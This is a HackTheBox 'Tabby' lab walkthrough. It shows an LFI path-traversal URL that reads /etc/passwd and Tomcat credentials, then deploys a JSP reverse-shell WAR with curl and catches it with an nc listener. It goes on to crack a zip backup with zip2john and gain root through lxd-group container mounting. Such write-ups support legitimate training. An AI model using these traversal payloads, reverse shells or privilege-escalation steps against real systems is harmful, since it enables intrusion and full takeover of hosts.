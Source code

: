 ```yaml
---
title: HackTheBox - Tabby
date: 2021-03-04 20:00:59 +0100
categories: [Hackthebox walkthroughs, Linux, Easy]
tags: [htb-linux-easy, gobuster, dirb, LFI, tomcat, reverse-shell, John The Ripper, zip2john, LXD group privesc, writeup, oscp-prep]
image: https://amirr0r.github.io/assets/img/htb/machines/linux/easy/tabby/Tabby.png
---
```


## Foothold

### `nmap` scan

```bash
$ nmap -min-rate 5000 --max-retries 1 -sV -sC -p- -oN Tabby-full-port-scan.txt 10.10.10.194
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 45:3c:34:14:35:56:23:95:d6:83:4e:26:de:c6:5b:d9 (RSA)
|   256 89:79:3a:9c:88:b0:5c:ce:4b:79:b1:02:23:4b:44:a6 (ECDSA)
|_  256 1e:e7:b9:55:dd:25:8f:72:56:e8:8e:65:d5:19:b0:8d (ED25519)
80/tcp    open     http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Mega Hosting
8080/tcp  open     http    Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Apache Tomcat
20688/tcp filtered unknown
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Apache/2.4.41 (port 80)

The main page of port 80 reveals a domain name `megahosting.htb` (that we can immediately add to our `/etc/hosts` file):

![](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/tabby/80.png)

Second thing we can notice is that **data breach** statement that redirects to <http://megahosting.htb/news.php?file=statement>.

![](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/tabby/data-breach-link.png)

![](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/tabby/data-breach.png)

Due to the `.php?file=statement`, I wanted to try for LFI and it works: 

<http://megahosting.htb/news.php?file=../../../../../../../../../../../>

![](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/tabby/LFI.png)

The presence of `lxd`, `tomcat`, and `mysql` in `/etc/passwd` may be useful later. Let's check port 8080. 

### Tomcat9 (port 8080)

**Tomcat 9** seems to be used. Plus, we can read that users are defined in `/etc/tomcat9/tomcat-users.xml`: 

![](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/tabby/tomcat9.png)

Via `gobuster` and `dirb`, we see that there some "hidden" folders like `/manager`. Accessing this page requires credentials: 

![](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/tabby/gobuster-8080.png)
![](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/tabby/auth.png)
![](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/tabby/8080-manager.png)

At this point, we can say that we want to take avantage of the LFI we found to retrieve `tomcat-users.xml`.

After trying several path and looking for tomcat's installation and configuration directories, I came across with this successful one <http://megahosting.htb/news.php?file=../../../../../../../../../../../usr/share/tomcat9/etc/tomcat-users.xml> 

![](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/tabby/tomcat-install-dir.png)
![](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/tabby/askubuntu.png)
![](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/tabby/creds.png)

The user is `tomcat` and his password is `$3cureP4s5w0rd123!`.

Surprisingly, we got an "access denied" response on `manager` when we log in:

![](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/tabby/acces_denied.png)

### Exploiting Tomcat to gain a reverse shell

Reading at [hacktricks - pentesting web (tomcat)](https://book.hacktricks.xyz/pentesting/pentesting-web/tomcat), I understood that by deploying a malicious WAR file via tomcat, I can run malicious code.

> **WAR** files are just zip files.

I looked for **jsp**(JavaServer Pages) **reverse shell** and I used the first one: 

<https://gist.github.com/halozheng/bf0eaa60c5f166dbc848>

```bash
$ wget https://gist.githubusercontent.com/halozheng/bf0eaa60c5f166dbc848/raw/a8a53f3275c378897b24dd04e385465d0bee06b6/shell.jsp
# Edit shell.jsp with HTB IP and listener port
$ zip monshell.war shell.jsp
$ curl --upload-file monshell.war -u "tomcat:\$3cureP4s5w0rd123!" "http://10.10.10.194:8080/manager/text/deploy?path=/monshell"
OK - Deployed application at context path [/monshell]
# Run a listener
$ nc -lnvp 1234
...
```

Visiting <http://10.10.10.194:8080/monshell/shell.jsp> and we have a reverse shell as user `tomcat`:

![](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/tabby/reverse_shell.png)

___

## User: `ash`

Now if we remember the `/etc/passwd` file we saw earlier, or if we just take a look at `/etc/home`, we see there is a user called `ash`.

I wanted to list all files that belongs to him and I found an interesting zip file:

```bash
$ find / -user ash 2>/dev/null
/var/www/html/files
/var/www/html/files/16162020_backup.zip
```

To get it on my own machine I printed the base64 of the file's content then I pasted it in a new file:

```bash
# On victim's machine
$ base64 16162020_backup.zip
...
# On my machine
$ cat > file.b64
... 
$ base64 -d file.b64 > 16162020_backup.zip
$ file 16162020_backup.zip 
16162020_backup.zip: Zip archive data, at least v1.0 to extract
```

### Cracking zip with john

Do not forget `zip2john`:

```bash
$ zip2john 16162020_backup.zip > 16162020_backup.john
```

![](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/tabby/john.png)

And we retrieved the following password: `admin@it`.

```bash
tomcat@tabby:~$ su ash
Password: admin@it
ash@tabby:/opt/tomcat$ cd
ash@tabby:~$ cat user.txt 
662b777f8536a0dce33afdd15851778b
```

___

## Privesc via LXD Group (Road to oot)

Ash is part of `lxd` group:

![](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/tabby/lxd_group.png)

Following the steps of this [hacktricks article](https://book.hacktricks.xyz/linux-unix/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation), we can perform a privilege escalation:

1. On our machine:

```bash
#Install requirements
sudo apt update
sudo apt install -y golang-go debootstrap rsync gpg squashfs-tools
#Clone repo
go get -d -v github.com/lxc/distrobuilder
#Make distrobuilder
cd $HOME/go/src/github.com/lxc/distrobuilder
make
cd
#Prepare the creation of alpine
mkdir -p $HOME/ContainerImages/alpine/
cd $HOME/ContainerImages/alpine/
wget https://raw.githubusercontent.com/lxc/lxc-ci/master/images/alpine.yaml
#Create the container
sudo $HOME/go/bin/distrobuilder build-lxd alpine.yaml -o image.release=3.8
```

2. Transfer ` lxd.tar.xz` and `rootfs.squashfs` on victim's machine. Then run `lxd init` and these commands:

```bash
$ lxc image import lxd.tar.xz rootfs.squashfs --alias alpine
$ lxc image list #You can see your new imported image
$ lxc init alpine privesc -c security.privileged=true
$ lxc list #List containers
$ lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
$ lxc start privesc
$ lxc exec privesc /bin/sh
~# cd /mnt/root #Here is where the filesystem is mounted
```

![](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/tabby/lxd_privesc.png)

Flag:

```bash
$ cat root.txt 
26571b9decff2a772d66c476d47d4875
```

___

## Useful links

- <https://askubuntu.com/questions/135824/what-is-the-tomcat-installation-directory>
- <https://book.hacktricks.xyz/pentesting/pentesting-web/tomcat>
- <https://gist.github.com/halozheng/bf0eaa60c5f166dbc848>
- <https://book.hacktricks.xyz/linux-unix/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation>